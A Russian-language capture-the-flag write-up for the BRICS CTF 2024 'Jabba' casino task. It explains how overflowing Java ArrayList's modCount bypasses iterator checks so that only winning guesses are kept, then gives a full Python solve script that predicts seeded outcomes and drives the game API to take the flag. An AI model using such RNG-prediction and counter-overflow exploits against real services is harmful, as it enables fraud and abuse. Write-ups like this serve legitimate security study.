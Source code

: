 # Brics CTF Jabba task Write-Up

## Участники
- Озеров Ярослав  (empipment)
- Черкащенко Анастасия (ceresen)
- pl1ght

## Формулировка задания
Attention!

Melange harvesting on Tatooine is strictly prohibited.

Thank you for your attention!
(https://github.com/C4T-BuT-S4D/bricsctf-2024-quals/tree/master/tasks/misc/medium-jabba)

## Решение
Необходимо организовать процесс таким образом, чтобы пропускать неудачные попытки (Guess.Loss) и обрабатывать только успешные (Guess.Win).

Основной подход основан на использовании внутреннего механизма ArrayList, где итератор проверяет соответствие счётчиков модификаций (modCount и expectedModCount). Поскольку эти счётчики имеют тип int32, при выполнении операций, достигающих значения INT.MAX_VALUE, происходит переполнение modCount, что позволяет обойти проверку на изменения коллекции.

Для реализации этого метода создаётся основной итератор, отвечающий за обработку только успешных попыток (successIterator). Когда итератор сталкивается с Guess.Win, он обрабатывает этот элемент напрямую. В случае обнаружения Guess.Loss инициируется временный итератор для его пропуска. После обработки неудачной попытки временный итератор закрывается, баланс обновляется, а счётчик модификаций основного итератора синхронизируется с текущим состоянием ArrayList. Таким образом, достигается обход стандартных проверок на изменения коллекции, позволяя фокусироваться исключительно на успешных попытках.

## Пример кода
```python
import sys
import subprocess
import requests
import websocket
from typing import List

DEFAULT_URL = 'localhost:7070'
API_BASE = f'http://{DEFAULT_URL}/api'
WS_BASE = f'ws://{DEFAULT_URL}/api'

CHUNK_SIZE = 10_000_000
MAX_INT = 2147483647

def execute_kotlin(seed: int, start: int, count: int) -> List[bool]:
    cmd = f'kotlin seed/SeedKt.class "{seed}" "{start}" "{count}"'
    proc = subprocess.Popen(cmd, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
    output, _ = proc.communicate()
    return [line.strip() == b'Win' for line in output.strip().splitlines()]

def register_user() -> requests.Session:
    session = requests.Session()
    response = session.post(f'{API_BASE}/user/register')
    response.raise_for_status()
    return session

def get_user_balance(session: requests.Session) -> int:
    response = session.get(f'{API_BASE}/user/balance')
    response.raise_for_status()
    return int(response.text)

def retrieve_flag(session: requests.Session) -> str:
    response = session.get(f'{API_BASE}/user/flag')
    return response.text

def initialize_game(session: requests.Session) -> int:
    response = session.post(f'{API_BASE}/casino/initialize')
    response.raise_for_status()
    return int(response.text)

def make_guess(session: requests.Session, amount: int) -> None:
    response = session.post(f'{API_BASE}/casino/guess', data=str(amount))
    response.raise_for_status()

def establish_ws_connection(session: requests.Session) -> websocket.WebSocket:
    token = session.cookies.get('token', '')
    ws_url = f'{WS_BASE}/casino/results'
    return websocket.create_connection(ws_url, cookie=f'token={token}')

def parse_ws_results(ws: websocket.WebSocket, count: int) -> dict:
    ws.send(str(count))
    data = ws.recv()
    if not data:
        raise ValueError("Empty response from WebSocket")
    parts = [part.split(': ') for part in data.split(', ')]
    return {key: int(value) for key, value in parts}

def simulate_consumption(target_length: int) -> int:
    total_consumed = 0
    target = 2 * MAX_INT + 2 - target_length

    for i in range(1 << 64):
        if i > 1:
            total_consumed += CHUNK_SIZE
        part = min(CHUNK_SIZE, target - total_consumed)
        total_consumed += part
        if total_consumed >= target:
            break

    return total_consumed

def sync_with_server(session: requests.Session, length: int, ping_ws) -> None:
    total = 0
    target = 2 * MAX_INT + 2 - length

    for i in range(1 << 64):
        ping_ws()
        if i > 1:
            ws = establish_ws_connection(session)
            parse_ws_results(ws, CHUNK_SIZE)
            ws.close()
            total += CHUNK_SIZE
            print(f'[sync] completed {total} / {target}')

        part = min(CHUNK_SIZE, target - total)
        make_guess(session, part)
        total += part

        if total >= target:
            break

    print('[sync] synchronization complete')

def locate_win(seed: int, start_pos: int, attempts: int = 1000) -> int:
    results = execute_kotlin(seed, start_pos, attempts)
    return results.index(True)

def skip_over_results(session: requests.Session, count: int) -> int:
    ws = establish_ws_connection(session)
    data = parse_ws_results(ws, count)
    ws.close()
    return data.get('wins', 0) + data.get('losses', 0)

def main_flow() -> None:
    total_coins = 10
    session = register_user()
    seed_value = initialize_game(session)
    print(f'Seed initialized: {seed_value}')

    ws_ping = establish_ws_connection(session)
    ping = lambda: ws_ping.ping("ping")

    current_start = 0

    for coin in range(total_coins):
        ping()
        print(f'Processing coin {coin + 1} of {total_coins}')

        size = 10_000
        skipped = skip_over_results(session, 1 << 28)
        sync_with_server(session, size + skipped, ping)
        consumed = simulate_consumption(size + skipped)
        current_start += consumed + skipped

        win_pos = locate_win(seed_value, current_start, size)
        skip_over_results(session, win_pos)
        current_start += win_pos

        make_guess(session, size - win_pos)
        result = parse_ws_results(ws_ping, 1)
        print(result)
        current_start += 1

    ws_ping.close()
    final_balance = get_user_balance(session)
    final_flag = retrieve_flag(session)

    print(f'Final balance: {final_balance} / {total_coins}')
    print(f'Flag: {final_flag}')

if __name__ == '__main__':
    target_url = sys.argv[1] if len(sys.argv) > 1 else DEFAULT_URL
    main_flow()
```

